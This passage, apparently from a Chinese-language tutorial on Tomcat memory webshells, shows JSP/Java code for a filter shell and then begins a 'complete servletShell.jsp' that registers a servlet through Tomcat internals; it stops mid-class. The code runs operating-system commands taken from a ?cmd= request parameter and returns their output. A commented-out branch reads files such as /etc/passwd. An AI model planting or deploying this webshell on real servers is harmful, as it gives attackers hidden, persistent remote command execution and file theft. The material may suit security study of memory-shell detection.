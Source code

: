 ```java
//                ((HttpServletResponse) servletResponse).sendError(HttpServletResponse.SC_INTERNAL_SERVER_ERROR, "文件传输失败");
//            }

////读文件 ?cmd=file:///etc/passwd or 列目录 ?cmd=file:///
//            final URL url = new URL(cmd);
//            final BufferedReader in = new BufferedReader(new
//                    InputStreamReader(url.openStream()));
//            StringBuilder stringBuilder = new StringBuilder();
//            String line;
//            while ((line = in.readLine()) != null) {
//                stringBuilder.append(line + '\n');
//            }
//            servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
//            servletResponse.getOutputStream().flush();
//            servletResponse.getOutputStream().close();
//            return;

//RCE ?cmd=whoami
                Process process = Runtime.getRuntime().exec(cmd);
                java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                        new java.io.InputStreamReader(process.getInputStream()));
                StringBuilder stringBuilder = new StringBuilder();
                String line;
                while ((line = bufferedReader.readLine()) != null) {
                    stringBuilder.append(line + '\n');
                }
                servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
                servletResponse.getOutputStream().flush();
                servletResponse.getOutputStream().close();
                return;
            }
        }

        public void destroy() {
        }
    }
%>
```

完整servletShell.jsp:

```jsp
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.PrintWriter" %>
<%@ page import="org.apache.catalina.core.ApplicationContextFacade" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.core.StandardWrapper" %><%--
  Created by IntelliJ IDEA.
  User: 19583
  Date: 2025/2/19
  Time: 下午5:03
  To change this template use File | Settings | File Templates.
--%>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<html>
<head>
    <title>Title</title>
</head>
<body>
<%!
    public class ServletMemShell extends HttpServlet {
```